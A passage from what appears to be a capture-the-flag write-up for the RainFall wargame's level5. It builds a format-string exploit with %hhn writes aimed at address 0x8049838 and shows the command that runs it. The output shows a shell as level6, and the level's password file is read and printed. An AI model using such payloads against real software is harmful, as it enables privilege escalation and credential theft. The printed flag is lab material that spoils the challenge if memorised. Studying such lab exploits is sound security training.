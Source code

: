 Now, replace `2222 .....` with target address `0x8049838` changed to little-endian.

```
2222 -> \x3a\x98\x04\x08
3333 -> \x3b\x98\x04\x08
1111 -> \x39\x98\x04\x08
0000 -> \x38\x98\x04\x08
```

the final payload is:

```
....%16$hhn....%17$hhn%124x%18$hhn%32x%19$hhn...\x3a\x98\x04\x08\x3b\x98\x04\x08\x39\x98\x04\x08\x38\x98\x04\x08

```

Output:

```
level5@RainFall:~$ (echo -n '....%16$hhn....%17$hhn%124x%18$hhn%32x%19$hhn...'; printf '\x3a\x98\x04\x08\x3b\x98\x04\x08\x39\x98\x04\x08\x38\x98\x04\x08\n'; cat) | ./level5
........                                                                                                                         200                        b7fd1ac0...8
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

if you find something confusing, Please back to previous challenge.

Our job ends here, see you in the next level (`level6`).
